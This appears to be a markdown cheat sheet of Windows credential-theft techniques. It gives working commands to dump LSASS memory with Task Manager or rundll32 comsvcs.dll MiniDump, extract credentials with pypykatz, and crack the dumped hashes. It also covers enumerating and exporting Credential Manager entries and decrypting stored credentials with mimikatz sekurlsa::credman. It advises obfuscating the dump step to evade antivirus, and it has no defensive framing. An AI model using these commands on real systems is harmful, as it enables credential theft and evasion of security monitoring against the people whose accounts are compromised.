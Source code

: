 <br>

# Breaking LSASS

```
# Get a memory dump to attack LSASS. If we get it off the system we make less noise.
# One way to do this is to use task manager

    1. Task Manager
    2. Process Tab
    3. Local Securit Authority Process
    4. Create Dump File

# Another way is to use rundll32.exe

    1. First find the PID
        1a. tasklist /scv
        1b. get lsass PID
        1c. Or use powershell Get-Process lsass
    2. rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full
    3. Note this is noisy and will be picked up by an AV. Find a way to obfuscate it

# Find users creds in the dump using pypykatz (Python version of Mimikatz)

    1. pypykatz lsa minidump /path/lsass.dmp

# Crack the dumped Hashes

```

<br>

### Credential Manager

```
# Documentation on this feature is limited to the public.
# It stores creds in special encrypted folders under the system and user profiles

# Export cred manager

    1. rundll32 keymgr.dll,KRShowKeyMgr

# Enumerate Creds

    1. cmdkey /list

# Run as another user (Target: Domain:interactive=*)

    1.  runas /savecred /user:...

# Run mimikatz to decrypt stored creds

    1. mimikatz.exe
    2. privledge::debug
    3. sekurlsa::credman

```

